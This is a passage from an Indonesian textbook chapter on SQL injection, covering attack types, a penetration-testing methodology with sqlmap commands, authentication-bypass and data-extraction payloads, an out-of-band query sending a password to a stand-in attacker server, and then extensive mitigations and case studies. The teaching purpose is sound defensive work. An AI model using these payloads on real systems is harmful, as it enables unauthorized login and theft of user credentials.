SELECT nama_produk, harga, deskripsi FROM produk WHERE id_produk = 1 
UNION 
SELECT username, password, email FROM pengguna--
```

Hasil dari query ini akan menggabungkan informasi produk dengan data kredensial pengguna. Jika halaman web menampilkan hasil query ini, penyerang akan melihat username dan password pengguna ditampilkan bersama dengan informasi produk.

Ada beberapa syarat agar union-based injection berhasil. Pertama, jumlah kolom dalam query UNION harus sama dengan jumlah kolom dalam query asli. Kedua, tipe data kolom-kolom yang bersesuaian harus kompatibel. Penyerang biasanya perlu melakukan tahap reconnaissance untuk menentukan jumlah kolom dan tipe data sebelum mengekstrak data yang sebenarnya.



*Gambar 12.4: In-Band SQL Injection - teknik Error-Based dan Union-Based*

### 12.3.2 Blind SQL Injection

Blind SQL injection terjadi ketika aplikasi tidak menampilkan hasil query atau pesan error secara langsung kepada pengguna. Dalam situasi ini, penyerang tidak bisa melihat output dari injeksi mereka secara langsung, sehingga mereka harus menggunakan teknik tidak langsung untuk mengekstrak informasi.

Disebut "blind" (buta) karena penyerang tidak bisa melihat respons langsung dari database. Meskipun lebih sulit dieksploitasi dibandingkan in-band injection, blind SQL injection tetap sangat berbahaya karena memungkinkan ekstraksi data lengkap, hanya membutuhkan waktu lebih lama.

**Boolean-Based Blind SQL Injection**

Boolean-based blind injection bekerja dengan mengirimkan query yang menghasilkan respons berbeda berdasarkan apakah kondisi tertentu bernilai TRUE atau FALSE. Penyerang mengamati perbedaan dalam respons aplikasi untuk menyimpulkan informasi tentang database.

Sebagai contoh, bayangkan aplikasi yang menampilkan profil pengguna berdasarkan ID. Ketika pengguna dengan ID tersebut ada, halaman profil ditampilkan. Ketika tidak ada, halaman menampilkan pesan "Pengguna tidak ditemukan".

Penyerang dapat mengeksploitasi perbedaan ini dengan mengirimkan query seperti:

```
-- Kondisi TRUE
id=1 AND SUBSTRING((SELECT password FROM pengguna WHERE id=1),1,1)='a'

-- Kondisi FALSE  
id=1 AND SUBSTRING((SELECT password FROM pengguna WHERE id=1),1,1)='b'
```

Jika karakter pertama password adalah 'a', kondisi TRUE dan halaman profil ditampilkan. Jika bukan 'a', kondisi FALSE dan halaman menampilkan "tidak ditemukan". Dengan mencoba setiap kemungkinan karakter satu per satu, penyerang dapat mengekstrak seluruh password karakter demi karakter.

Proses ini memang lambat dan membutuhkan banyak permintaan, tetapi dapat diotomatisasi menggunakan tools. Untuk password 8 karakter dengan 62 kemungkinan karakter (a-z, A-Z, 0-9), penyerang mungkin perlu mengirim ratusan hingga ribuan permintaan.

**Time-Based Blind SQL Injection**

Time-based blind injection digunakan ketika aplikasi tidak menunjukkan perbedaan respons yang terlihat antara kondisi TRUE dan FALSE. Dalam teknik ini, penyerang menyebabkan database untuk "tidur" atau menunggu selama waktu tertentu jika kondisi tertentu terpenuhi, kemudian mengukur waktu respons untuk menyimpulkan hasil.

Contoh payload time-based injection:

```
id=1; IF (SUBSTRING((SELECT password FROM pengguna WHERE id=1),1,1)='a') WAITFOR DELAY '0:0:5'--
```

Jika karakter pertama password adalah 'a', database akan menunggu 5 detik sebelum mengembalikan respons. Jika bukan 'a', respons dikembalikan segera. Penyerang dapat menentukan nilai karakter berdasarkan apakah respons membutuhkan waktu 5 detik atau tidak.

Fungsi delay berbeda-beda tergantung jenis database. MySQL menggunakan SLEEP(), PostgreSQL menggunakan pg_sleep(), dan SQL Server menggunakan WAITFOR DELAY. Penyerang perlu mengetahui jenis database yang digunakan untuk memilih fungsi yang tepat.



*Gambar 12.5: Blind SQL Injection - teknik Boolean-Based dan Time-Based*

### 12.3.3 Out-of-Band SQL Injection

Out-of-band SQL injection adalah teknik yang digunakan ketika penyerang tidak bisa menggunakan saluran yang sama untuk mengirim payload dan menerima respons (in-band tidak memungkinkan), dan ketika respons aplikasi terlalu tidak stabil untuk blind injection (misalnya, waktu respons terlalu bervariasi untuk time-based).

Dalam out-of-band injection, penyerang menyebabkan database untuk mengirimkan data ke server eksternal yang dikontrol oleh penyerang. Ini biasanya dilakukan melalui permintaan DNS atau HTTP yang diinisiasi oleh server database.

Sebagai contoh, pada database Oracle, penyerang bisa menggunakan fungsi UTL_HTTP untuk membuat permintaan HTTP:

```sql
SELECT UTL_HTTP.REQUEST('http://attacker-server.com/' || (SELECT password FROM pengguna WHERE id=1)) FROM DUAL
```

Database akan membuat permintaan HTTP ke server penyerang dengan password sebagai bagian dari URL. Penyerang kemudian bisa melihat data yang dikirim dalam log akses server mereka.

Teknik ini membutuhkan kondisi tertentu untuk berhasil. Database harus memiliki kemampuan untuk membuat koneksi jaringan keluar, firewall tidak memblokir koneksi keluar dari server database, dan penyerang harus memiliki server yang bisa menerima koneksi masuk. Karena persyaratan ini, out-of-band injection kurang umum dibandingkan tipe-tipe lainnya.

---

## 12.4 Metodologi Pengujian SQL Injection

Pengujian SQL injection yang sistematis membutuhkan pendekatan metodis untuk mengidentifikasi kerentanan, memahami karakteristiknya, dan mengekstrak informasi. Bagian ini membahas langkah-langkah yang biasanya digunakan dalam pengujian keamanan (penetration testing) yang dilakukan secara legal dan etis.

### 12.4.1 Identifikasi Titik Injeksi

Langkah pertama dalam pengujian SQL injection adalah mengidentifikasi titik-titik dalam aplikasi yang berinteraksi dengan database dan menerima input pengguna. Proses ini melibatkan eksplorasi menyeluruh terhadap aplikasi target.

**Pemetaan Aplikasi**

Pemetaan aplikasi melibatkan navigasi melalui seluruh fungsi aplikasi untuk mengidentifikasi semua halaman dan fitur yang ada. Selama proses ini, penguji mencatat semua formulir input yang ditemukan, parameter dalam URL, cookie dan header HTTP yang digunakan, serta fungsi pencarian, filter, dan sorting.

Tools seperti Burp Suite atau OWASP ZAP dapat membantu proses pemetaan dengan secara otomatis mencatat semua permintaan dan respons saat penguji menavigasi aplikasi. Hasil pemetaan ini menjadi daftar titik potensial yang perlu diuji untuk kerentanan SQL injection.

**Pengujian Awal dengan Karakter Khusus**

Setelah mengidentifikasi titik-titik potensial, langkah selanjutnya adalah mengirim input yang mengandung karakter-karakter khusus SQL untuk melihat bagaimana aplikasi merespons. Karakter-karakter yang umum digunakan untuk pengujian awal meliputi:

Tanda kutip tunggal (') sering menyebabkan error jika input tidak ditangani dengan benar karena mengganggu sintaks query. Tanda kutip ganda (") memiliki efek serupa dengan kutip tunggal pada beberapa database. Tanda komentar seperti --, #, atau /* dapat menonaktifkan bagian dari query dan menyebabkan perilaku tidak terduga. Operator logika seperti OR, AND, dan NOT dapat digunakan untuk memodifikasi logika query.

Jika aplikasi menampilkan pesan error database, berperilaku tidak normal, atau menunjukkan hasil yang berbeda dari yang diharapkan, ini merupakan indikasi bahwa titik tersebut mungkin rentan terhadap SQL injection.

### 12.4.2 Penentuan Tipe Database

Setelah mengkonfirmasi adanya kerentanan, langkah selanjutnya adalah menentukan jenis database yang digunakan. Informasi ini penting karena sintaks SQL dan fungsi-fungsi khusus berbeda antara database satu dengan lainnya.

Beberapa teknik untuk mengidentifikasi jenis database meliputi analisis pesan error yang mungkin menyebutkan nama database (misalnya "MySQL Error" atau "ORA-00933"), penggunaan fungsi khusus database, dan pengamatan terhadap sintaks komentar yang diterima.

Sebagai contoh, untuk menguji apakah database adalah MySQL, penguji bisa mencoba:

```
id=1 AND SLEEP(5)--
```

Jika respons tertunda 5 detik, kemungkinan database adalah MySQL karena fungsi SLEEP() khusus untuk MySQL.

Untuk SQL Server:

```
id=1; WAITFOR DELAY '0:0:5'--
```

Untuk Oracle:

```
id=1 AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',5)--
```

Setiap database memiliki sintaks dan fungsi yang berbeda, sehingga penguji perlu mencoba berbagai payload untuk menentukan jenis database yang tepat.

### 12.4.3 Ekstraksi Informasi Skema

Setelah mengetahui jenis database, penguji dapat mulai mengekstrak informasi tentang struktur database. Ini meliputi nama-nama tabel, nama kolom dalam setiap tabel, dan tipe data kolom. Informasi ini disebut skema database.

**Menggunakan Information Schema**

Sebagian besar database relasional menyimpan metadata tentang struktur database dalam tabel sistem yang disebut information schema. Penguji dapat melakukan query terhadap tabel ini untuk mendapatkan informasi skema.

Contoh untuk MySQL:

```sql
-- Mendapatkan daftar semua tabel
SELECT table_name FROM information_schema.tables WHERE table_schema = database()

-- Mendapatkan kolom dari tabel tertentu
SELECT column_name FROM information_schema.columns WHERE table_name = 'pengguna'
```

Untuk SQL Server:

```sql
-- Mendapatkan daftar tabel
SELECT name FROM sysobjects WHERE xtype = 'U'

-- Mendapatkan kolom
SELECT name FROM syscolumns WHERE id = OBJECT_ID('pengguna')
```

### 12.4.4 Ekstraksi Data

Setelah mengetahui struktur database, penguji dapat mengekstrak data aktual dari tabel-tabel yang diidentifikasi. Teknik yang digunakan bergantung pada tipe SQL injection yang tersedia.

Untuk union-based injection, penguji dapat langsung menggabungkan query yang mengekstrak data dengan query asli:

```
id=1 UNION SELECT username, password, email FROM pengguna--
```

Untuk blind injection, proses ekstraksi lebih lambat dan membutuhkan pengujian karakter per karakter seperti yang dijelaskan sebelumnya.


*Gambar 12.6: Metodologi Pengujian SQL Injection - langkah-langkah sistematis dalam pengujian*

### 12.4.5 Tools untuk Pengujian SQL Injection

Meskipun pemahaman manual tentang SQL injection sangat penting, tools otomatis dapat mempercepat proses pengujian dan membantu mengidentifikasi kerentanan yang mungkin terlewatkan.

**SQLMap**

SQLMap adalah tool open-source yang paling populer untuk deteksi dan eksploitasi SQL injection. Tool ini dapat secara otomatis mendeteksi kerentanan SQL injection dalam parameter URL, POST data, cookie, dan header HTTP. SQLMap mendukung berbagai teknik injection termasuk union-based, boolean-based blind, time-based blind, error-based, dan stacked queries. Tool ini juga dapat mengidentifikasi jenis database secara otomatis dan menyesuaikan payload-nya.

Contoh penggunaan dasar SQLMap:

```bash
# Menguji parameter id untuk SQL injection
sqlmap -u "http://target.com/produk?id=1" --dbs

# Mengekstrak tabel dari database tertentu
sqlmap -u "http://target.com/produk?id=1" -D nama_database --tables

# Mengekstrak data dari tabel
sqlmap -u "http://target.com/produk?id=1" -D nama_database -T pengguna --dump
```

**Burp Suite**

Burp Suite adalah platform pengujian keamanan web yang komprehensif. Fitur Scanner-nya dapat mendeteksi kerentanan SQL injection dan berbagai kerentanan web lainnya. Burp Suite juga menyediakan Intruder untuk melakukan pengujian otomatis dengan berbagai payload, Repeater untuk memodifikasi dan mengirim ulang permintaan secara manual, serta Logger untuk mencatat semua traffic HTTP untuk analisis.

**OWASP ZAP**

OWASP ZAP (Zed Attack Proxy) adalah tool gratis dan open-source yang mirip dengan Burp Suite. ZAP menyediakan fitur active scan yang mencoba mendeteksi SQL injection dan kerentanan lainnya, passive scan yang menganalisis respons untuk indikator kerentanan, serta fuzzer untuk menguji input dengan berbagai payload.

---

## 12.5 Teknik Bypass Authentication dengan SQL Injection

Salah satu eksploitasi SQL injection yang paling umum dan berbahaya adalah bypass autentikasi. Teknik ini memungkinkan penyerang untuk masuk ke aplikasi tanpa mengetahui kredensial yang valid, sering kali dengan hak akses administrator.

### 12.5.1 Memahami Mekanisme Login

Untuk memahami bagaimana bypass authentication bekerja, kita perlu terlebih dahulu memahami bagaimana aplikasi web biasanya memproses login. Ketika pengguna memasukkan username dan password, aplikasi biasanya melakukan langkah-langkah berikut.

Pertama, aplikasi menerima input dari pengguna melalui formulir login. Kedua, aplikasi membangun query SQL untuk memeriksa apakah kombinasi username dan password ada dalam database. Ketiga, jika query mengembalikan satu baris atau lebih, berarti kredensial valid dan pengguna diizinkan masuk. Keempat, jika query tidak mengembalikan hasil, login ditolak.

Query login yang umum terlihat seperti ini:

```sql
SELECT * FROM pengguna WHERE username = '[input_username]' AND password = '[input_password]'
```

Kerentanan muncul ketika aplikasi langsung menyisipkan input pengguna ke dalam query tanpa validasi atau sanitasi yang memadai.

### 12.5.2 Payload Bypass Umum

**Payload OR 1=1**

Payload klasik untuk bypass authentication adalah menggunakan kondisi yang selalu bernilai TRUE:

```
Username: ' OR '1'='1
Password: ' OR '1'='1
```

Dengan input ini, query menjadi:

```sql
SELECT * FROM pengguna WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```

Karena '1'='1' selalu TRUE, query ini akan mengembalikan semua pengguna dalam database. Aplikasi mungkin mengizinkan akses sebagai pengguna pertama dalam hasil, yang sering kali adalah administrator.

**Payload dengan Komentar**

Teknik lain adalah menggunakan komentar SQL untuk menonaktifkan pemeriksaan password:

```
Username: admin'--
Password: [apapun]
```

Query menjadi:

```sql
SELECT * FROM pengguna WHERE username = 'admin'--' AND password = '[apapun]'
```

Bagian setelah -- dianggap sebagai komentar dan diabaikan oleh database, sehingga query efektif menjadi:

```sql
SELECT * FROM pengguna WHERE username = 'admin'
```

Jika ada pengguna dengan username 'admin', penyerang akan login sebagai admin tanpa perlu mengetahui password-nya.

**Variasi Payload Lainnya**

Ada banyak variasi payload bypass yang dapat digunakan tergantung pada konfigurasi aplikasi dan database:

```
' OR 1=1--
' OR 'x'='x
') OR ('1'='1
admin'/*
' OR 1=1#
' OR 1=1/*
```

Beberapa aplikasi mungkin memfilter payload tertentu, sehingga penyerang sering mencoba berbagai variasi untuk menemukan yang berhasil.



*Gambar 12.7: Bypass Authentication - teknik melewati autentikasi menggunakan SQL injection*

### 12.5.3 Dampak Bypass Authentication

Bypass authentication yang berhasil dapat memberikan penyerang akses penuh ke akun pengguna target. Jika akun yang diakses adalah administrator, penyerang dapat mengendalikan seluruh aplikasi, termasuk akses ke data semua pengguna, kemampuan untuk membuat, memodifikasi, atau menghapus akun, kontrol atas konfigurasi dan pengaturan aplikasi, serta kemungkinan akses ke fungsi-fungsi sensitif lainnya.

Bahkan jika penyerang hanya mendapat akses sebagai pengguna biasa, mereka masih dapat mengakses data pribadi pengguna tersebut, melakukan tindakan atas nama pengguna, dan mungkin menemukan kerentanan tambahan dari dalam sistem.

---

## 12.6 Teknik Ekstraksi Data

Selain bypass authentication, SQL injection juga dapat digunakan untuk mengekstrak data sensitif dari database. Bagian ini membahas teknik-teknik yang digunakan untuk mengekstrak berbagai jenis data.

### 12.6.1 Ekstraksi dengan UNION

Seperti yang telah dibahas sebelumnya, operator UNION dapat digunakan untuk menggabungkan hasil query tambahan dengan query asli. Untuk menggunakan teknik ini, penguji perlu menentukan jumlah kolom yang tepat.

**Menentukan Jumlah Kolom**

Langkah pertama dalam union-based injection adalah menentukan berapa banyak kolom yang dikembalikan oleh query asli. Ada dua metode umum untuk ini.

Metode ORDER BY melibatkan pengujian dengan nilai yang meningkat sampai terjadi error:

```
id=1 ORDER BY 1--    (berhasil)
id=1 ORDER BY 2--    (berhasil)
id=1 ORDER BY 3--    (berhasil)
id=1 ORDER BY 4--    (error - kolom tidak ada)
```

Jika ORDER BY 4 menghasilkan error, berarti query asli memiliki 3 kolom.

Metode NULL VALUES menggunakan UNION dengan nilai NULL:

```
id=1 UNION SELECT NULL--           (error)
id=1 UNION SELECT NULL, NULL--     (error)
id=1 UNION SELECT NULL, NULL, NULL--  (berhasil)
```

Jumlah NULL yang tidak menghasilkan error menunjukkan jumlah kolom.

**Menentukan Kolom yang Dapat Menampilkan Data**

Setelah mengetahui jumlah kolom, langkah selanjutnya adalah menentukan kolom mana yang menampilkan output di halaman web. Ini penting karena tidak semua kolom mungkin ditampilkan.

```
id=1 UNION SELECT 'a', 'b', 'c'--
```

Lihat output mana yang muncul di halaman. Jika 'b' muncul, berarti kolom kedua dapat digunakan untuk menampilkan data ekstraksi.

**Mengekstrak Data**

Setelah mengetahui kolom yang dapat digunakan, data dapat diekstrak:

```
-- Mengekstrak versi database
id=1 UNION SELECT NULL, @@version, NULL--

-- Mengekstrak nama database
id=1 UNION SELECT NULL, database(), NULL--

-- Mengekstrak data pengguna
id=1 UNION SELECT NULL, username, password FROM pengguna--
```

### 12.6.2 Ekstraksi dengan Blind Injection

Ketika output tidak ditampilkan langsung, teknik blind injection digunakan untuk mengekstrak data satu karakter pada satu waktu.

**Teknik Substring**

Fungsi SUBSTRING (atau SUBSTR pada beberapa database) digunakan untuk mengekstrak karakter individual:

```sql
-- Mengekstrak karakter pertama dari password admin
id=1 AND SUBSTRING((SELECT password FROM pengguna WHERE username='admin'),1,1)='a'--
```

Jika kondisi TRUE, karakter pertama adalah 'a'. Proses ini diulang untuk setiap posisi karakter dan setiap kemungkinan nilai karakter.

**Optimisasi dengan Binary Search**

Untuk mempercepat proses, teknik binary search dapat digunakan. Alih-alih mencoba setiap karakter satu per satu, penguji membandingkan dengan nilai ASCII:

```sql
-- Apakah karakter pertama memiliki nilai ASCII lebih besar dari 'm'?
id=1 AND ASCII(SUBSTRING((SELECT password FROM pengguna WHERE username='admin'),1,1)) > 109--
```

Dengan pendekatan ini, jumlah permintaan yang diperlukan untuk menemukan satu karakter berkurang dari rata-rata 36 (untuk alfanumerik) menjadi maksimum 7 (binary search untuk 128 nilai ASCII).

---

## 12.7 Strategi Mitigasi SQL Injection

Pencegahan SQL injection membutuhkan pendekatan berlapis yang mencakup praktik pengkodean yang aman, konfigurasi database yang tepat, dan mekanisme pertahanan tambahan. Bagian ini membahas strategi-strategi kunci untuk mencegah kerentanan SQL injection.

### 12.7.1 Penggunaan Parameterized Query

Parameterized query, juga dikenal sebagai prepared statement, adalah metode paling efektif untuk mencegah SQL injection. Dalam pendekatan ini, struktur query SQL didefinisikan terlebih dahulu dengan placeholder untuk nilai-nilai yang akan dimasukkan, kemudian nilai-nilai tersebut diberikan secara terpisah.

**Cara Kerja Parameterized Query**

Dalam parameterized query, database membedakan antara kode SQL (struktur query) dan data (nilai yang dimasukkan pengguna). Ini mencegah input pengguna dari diinterpretasikan sebagai bagian dari perintah SQL.

Contoh query yang rentan dalam PHP:

```php
// RENTAN - jangan gunakan cara ini
$query = "SELECT * FROM pengguna WHERE email = '" . $_POST['email'] . "' AND password = '" . $_POST['password'] . "'";
$result = mysqli_query($conn, $query);
```

Contoh yang sama dengan parameterized query (PHP dengan PDO):

```php
// AMAN - gunakan cara ini
$stmt = $pdo->prepare("SELECT * FROM pengguna WHERE email = ? AND password = ?");
$stmt->execute([$_POST['email'], $_POST['password']]);
$result = $stmt->fetch();
```

Dalam contoh kedua, tanda tanya (?) adalah placeholder. Nilai yang sebenarnya diberikan melalui metode execute(). Database akan memperlakukan nilai-nilai ini murni sebagai data, bukan sebagai bagian dari perintah SQL, sehingga karakter-karakter khusus seperti tanda kutip tidak akan memengaruhi struktur query.

**Implementasi di Berbagai Bahasa**

Hampir semua bahasa pemrograman modern mendukung parameterized query. Berikut contoh implementasi dalam beberapa bahasa:

Python dengan SQLite:

```python
import sqlite3
conn = sqlite3.connect('database.db')
cursor = conn.cursor()
cursor.execute("SELECT * FROM pengguna WHERE email = ? AND password = ?", (email, password))
```

Java dengan JDBC:

```java
String sql = "SELECT * FROM pengguna WHERE email = ? AND password = ?";
PreparedStatement stmt = connection.prepareStatement(sql);
stmt.setString(1, email);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

Node.js dengan MySQL:

```javascript
const sql = "SELECT * FROM pengguna WHERE email = ? AND password = ?";
connection.query(sql, [email, password], function(error, results) {
    // handle results
});
```



*Gambar 12.8: Query Rentan vs Parameterized Query - cara kerja pertahanan utama*

### 12.7.2 Validasi dan Sanitasi Input

Meskipun parameterized query adalah pertahanan utama, validasi dan sanitasi input memberikan lapisan perlindungan tambahan dan merupakan praktik keamanan yang baik secara umum.

**Prinsip Whitelist**

Pendekatan whitelist hanya mengizinkan input yang cocok dengan format yang diharapkan dan menolak semua yang lain. Ini lebih aman daripada pendekatan blacklist yang mencoba memblokir karakter-karakter berbahaya yang diketahui.

Contoh validasi whitelist:

```php
// Validasi bahwa ID hanya berisi angka
if (!ctype_digit($_GET['id'])) {
    die("ID tidak valid");
}

// Validasi email dengan format yang benar
if (!filter_var($_POST['email'], FILTER_VALIDATE_EMAIL)) {
    die("Email tidak valid");
}
```

**Tipe Data yang Ketat**

Memastikan input sesuai dengan tipe data yang diharapkan membantu mencegah injeksi:

```php
// Konversi ke integer untuk parameter numerik
$id = intval($_GET['id']);

// Batasi panjang input
$username = substr($_POST['username'], 0, 50);
```

### 12.7.3 Prinsip Least Privilege

Prinsip least privilege berarti memberikan hak akses minimum yang diperlukan untuk menjalankan fungsi. Dalam konteks database, ini berarti akun database yang digunakan oleh aplikasi seharusnya hanya memiliki izin yang benar-benar diperlukan.

**Pembatasan Hak Akses**

Akun database untuk aplikasi web sebaiknya tidak memiliki hak akses administratif. Jika aplikasi hanya perlu membaca dan menulis data, akun tersebut tidak perlu memiliki izin untuk menghapus tabel atau mengakses skema sistem.

Contoh pembuatan pengguna dengan izin terbatas di MySQL:

```sql
-- Membuat pengguna dengan akses terbatas
CREATE USER 'app_user'@'localhost' IDENTIFIED BY 'password_kuat';

-- Memberikan izin hanya untuk operasi yang diperlukan
GRANT SELECT, INSERT, UPDATE ON database_aplikasi.* TO 'app_user'@'localhost';

-- Tidak memberikan izin DROP, DELETE, atau akses ke database lain
```

Dengan pembatasan ini, meskipun SQL injection berhasil, dampaknya terbatas karena penyerang tidak dapat melakukan operasi yang tidak diizinkan untuk akun tersebut.

### 12.7.4 Penanganan Error yang Aman

Pesan error yang detail dapat memberikan informasi berharga kepada penyerang tentang struktur database dan konfigurasi sistem. Aplikasi produksi seharusnya tidak menampilkan pesan error database secara langsung kepada pengguna.

**Praktik Penanganan Error**

Aplikasi sebaiknya menampilkan pesan error generik kepada pengguna seperti "Terjadi kesalahan, silakan coba lagi" tanpa detail teknis. Detail error lengkap sebaiknya dicatat di log server untuk analisis oleh administrator. Mode debug yang menampilkan error detail harus dinonaktifkan di lingkungan produksi.

Contoh penanganan error di PHP:

```php
try {
    // operasi database
    $result = $pdo->query($sql);
} catch (PDOException $e) {
    // Catat error detail ke log
    error_log("Database error: " . $e->getMessage());
    
    // Tampilkan pesan generik ke pengguna
    die("Maaf, terjadi kesalahan sistem. Silakan coba lagi nanti.");
}
```

### 12.7.5 Web Application Firewall (WAF)

Web Application Firewall adalah sistem keamanan yang memantau dan memfilter traffic HTTP antara aplikasi web dan internet. WAF dapat mendeteksi dan memblokir pola-pola serangan SQL injection yang umum.

WAF bekerja dengan menganalisis permintaan HTTP yang masuk dan membandingkannya dengan database tanda tangan serangan yang diketahui. Jika permintaan mengandung pola yang mencurigakan, WAF dapat memblokir permintaan tersebut sebelum mencapai aplikasi.

Meskipun WAF memberikan lapisan perlindungan tambahan, WAF tidak boleh menjadi satu-satunya pertahanan. Penyerang yang terampil mungkin dapat menemukan cara untuk menghindari deteksi WAF dengan teknik obfuscation atau encoding. WAF sebaiknya digunakan sebagai pelengkap, bukan pengganti, praktik pengkodean yang aman.

### 12.7.6 Pembaruan dan Patch Reguler

Kerentanan keamanan secara teratur ditemukan dalam perangkat lunak database, framework aplikasi, dan komponen lainnya. Memastikan semua komponen sistem diperbarui dengan patch keamanan terbaru adalah bagian penting dari strategi pertahanan.

Praktik terbaik meliputi pemantauan pengumuman keamanan dari vendor database dan framework yang digunakan, pengujian patch di lingkungan staging sebelum diterapkan ke produksi, penerapan patch keamanan kritis sesegera mungkin, serta audit reguler untuk memastikan tidak ada komponen yang ketinggalan update.



*Gambar 12.9: Strategi Pertahanan Berlapis (Defense in Depth) - pendekatan komprehensif untuk mencegah SQL injection*

---

## 12.8 Studi Kasus SQL Injection

Untuk memberikan perspektif nyata tentang dampak SQL injection, bagian ini membahas beberapa insiden keamanan terkenal yang melibatkan SQL injection.

### 12.8.1 Kasus Heartland Payment Systems (2008)

Heartland Payment Systems adalah perusahaan pemroses pembayaran yang pada tahun 2008 mengalami salah satu pelanggaran data terbesar dalam sejarah. Penyerang menggunakan SQL injection sebagai vektor awal untuk memasuki sistem Heartland.

Serangan dimulai dengan SQL injection yang memungkinkan penyerang menginstal malware pada server pemrosesan pembayaran. Malware ini kemudian mencuri data kartu kredit saat transaksi diproses. Diperkirakan lebih dari 130 juta nomor kartu kredit dicuri dalam insiden ini.

Dampak dari insiden ini sangat besar. Heartland harus membayar lebih dari 140 juta dolar dalam penyelesaian dan denda. Kepercayaan pelanggan terhadap perusahaan menurun drastis. Insiden ini juga menjadi kasus hukum penting yang menetapkan preseden untuk tanggung jawab perusahaan dalam melindungi data pelanggan.

### 12.8.2 Kasus Sony PlayStation Network (2011)

Pada April 2011, jaringan PlayStation Network (PSN) milik Sony mengalami serangan besar yang mengakibatkan penutupan layanan selama hampir sebulan. Meskipun Sony tidak mengkonfirmasi secara eksplisit metode serangan, analisis independen menunjukkan bahwa SQL injection kemungkinan merupakan salah satu vektor yang digunakan.

Data pribadi sekitar 77 juta pengguna terekspos, termasuk nama, alamat, tanggal lahir, dan mungkin informasi kartu kredit. Sony memperkirakan kerugian finansial dari insiden ini mencapai 171 juta dolar, termasuk biaya investigasi, pemulihan sistem, dan kompensasi kepada pelanggan.

### 12.8.3 Pembelajaran dari Studi Kasus

Studi kasus ini mengilustrasikan beberapa pelajaran penting. Pertama, SQL injection bukanlah ancaman teoretis, melainkan kerentanan nyata yang secara aktif dieksploitasi oleh penyerang. Kedua, dampak dari SQL injection yang berhasil dapat mencakup kerugian finansial dalam jumlah besar, pencurian data pelanggan dalam skala masif, kerusakan reputasi yang membutuhkan waktu bertahun-tahun untuk dipulihkan, serta konsekuensi hukum dan regulatori.

Ketiga, pencegahan jauh lebih murah daripada penanganan insiden. Investasi dalam praktik pengkodean yang aman, pengujian keamanan reguler, dan pelatihan developer dapat mencegah kerugian yang jauh lebih besar di kemudian hari.

---

## 12.9 Praktik Terbaik untuk Pengembang

Sebagai ringkasan dari materi yang telah dibahas, berikut adalah praktik-praktik terbaik yang harus diterapkan oleh pengembang untuk mencegah SQL injection.

### 12.9.1 Daftar Periksa Keamanan

**Penggunaan Query yang Aman**

Pengembang harus selalu menggunakan parameterized query atau prepared statement untuk semua interaksi dengan database. Jangan pernah menggabungkan input pengguna langsung ke dalam string query SQL. Gunakan ORM (Object-Relational Mapping) yang menangani parameterisasi secara otomatis jika memungkinkan.

**Validasi Input**

Terapkan validasi input di sisi server untuk semua data yang diterima dari pengguna. Gunakan pendekatan whitelist yang hanya menerima input dalam format yang diharapkan. Validasi tipe data, panjang, format, dan rentang nilai yang diizinkan.

**Konfigurasi Database**

Jalankan aplikasi dengan akun database yang memiliki izin minimum yang diperlukan. Pisahkan akun untuk operasi baca saja dan operasi tulis jika memungkinkan. Nonaktifkan fitur database yang tidak diperlukan.

**Penanganan Error**

Nonaktifkan tampilan error detail di lingkungan produksi. Implementasikan logging yang mencatat error untuk analisis internal. Tampilkan pesan error generik yang tidak mengungkapkan informasi sistem.

### 12.9.2 Pengujian Keamanan

Pengujian keamanan reguler adalah bagian penting dari siklus pengembangan perangkat lunak yang aman. Pengembang sebaiknya melakukan code review dengan fokus pada keamanan untuk setiap perubahan yang melibatkan akses database. Gunakan tools analisis statis yang dapat mendeteksi pola-pola kode yang rentan. Lakukan pengujian penetrasi secara berkala untuk mengidentifikasi kerentanan yang mungkin terlewatkan. Pertimbangkan program bug bounty untuk memanfaatkan komunitas keamanan dalam menemukan kerentanan.

---

## Rangkuman

SQL injection adalah kerentanan keamanan yang terjadi ketika input pengguna tidak divalidasi dengan benar dan dapat memengaruhi struktur query SQL yang dieksekusi oleh aplikasi. Serangan ini dapat mengakibatkan pencurian data, manipulasi data, atau bahkan pengambilalihan sistem sepenuhnya.

Terdapat beberapa tipe SQL injection utama, yaitu in-band injection (error-based dan union-based) yang mengembalikan hasil langsung melalui respons aplikasi, blind injection (boolean-based dan time-based) yang mengekstrak data melalui pengamatan tidak langsung, serta out-of-band injection yang menggunakan saluran terpisah untuk mengekstrak data.

Strategi mitigasi yang efektif mencakup penggunaan parameterized query sebagai pertahanan utama, validasi dan sanitasi input sebagai lapisan tambahan, penerapan prinsip least privilege untuk akun database, penanganan error yang tidak mengungkapkan informasi sensitif, serta penggunaan WAF dan pembaruan keamanan reguler.

Pemahaman yang baik tentang SQL injection dan penerapan praktik pencegahan yang tepat adalah tanggung jawab setiap pengembang aplikasi web untuk melindungi data pengguna dan integritas sistem.

---

## Daftar Pustaka

1. EC-Council. (2024). *Certified Ethical Hacker (CEH) v13 Module 15: SQL Injection*. EC-Council Press.

2. OWASP Foundation. (2021). *OWASP Top 10 - 2021*. https://owasp.org/Top10/

3. OWASP Foundation. (2023). *SQL Injection Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

4. Clarke, J. (2012). *SQL Injection Attacks and Defense* (2nd ed.). Syngress Publishing.

5. Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws* (2nd ed.). Wiley.

6. MySQL. (2024). *MySQL Documentation - Security*. https://dev.mysql.com/doc/

7. Microsoft. (2024). *SQL Server Security Best Practices*. https://docs.microsoft.com/en-us/sql/relational-databases/security/

---

## Glosarium

| Istilah | Definisi |
|---------|----------|
| Blind SQL Injection | Tipe SQL injection di mana hasil query tidak ditampilkan langsung, mengharuskan penyerang menggunakan teknik tidak langsung untuk mengekstrak data |
| Boolean-Based | Teknik blind injection yang memanfaatkan respons berbeda untuk kondisi TRUE dan FALSE |
| CVSS | Common Vulnerability Scoring System, sistem standar untuk menilai tingkat keparahan kerentanan |
| Error-Based | Teknik injection yang memanfaatkan pesan error database untuk mengekstrak informasi |
| In-Band SQL Injection | Tipe SQL injection di mana hasil dikembalikan melalui saluran yang sama dengan permintaan |
| Information Schema | Tabel sistem yang menyimpan metadata tentang struktur database |
| Injection | Teknik serangan yang menyisipkan kode berbahaya ke dalam input yang diproses oleh aplikasi |
| OWASP | Open Web Application Security Project, organisasi yang fokus pada keamanan aplikasi web |
| Out-of-Band | Teknik injection yang menggunakan saluran terpisah untuk mengekstrak data |
| Parameterized Query | Teknik pembuatan query yang memisahkan struktur SQL dari data input |
